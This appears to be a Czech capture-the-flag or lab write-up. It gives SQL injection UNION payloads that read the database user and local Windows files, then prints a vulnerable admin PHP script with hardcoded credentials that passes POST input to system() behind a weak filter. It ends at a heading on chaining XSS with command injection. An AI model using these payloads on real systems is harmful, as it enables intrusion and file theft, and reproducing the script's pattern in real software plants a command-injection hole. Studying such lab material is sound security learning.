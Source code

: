 ### Test SQL injection ve vyhledávání uživatelů
- `1' UNION SELECT 1,user(),3-- -`
- `1' UNION SELECT 1,LOAD_FILE('C:\\Windows\\win.ini'),3-- -`

### Načtení obsahu backdoorchecker.php z výchozí složky Xampp
- `1' UNION SELECT 1,LOAD_FILE('C:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3-- -`

Obsah se lépe čte pomocí Developer tools prohlížeče na záložce Network

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}

			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```
Skript je zranitelný na Command Injection

### Kombinace XSS a Command Injection
Spuštění primitivního webového serveru
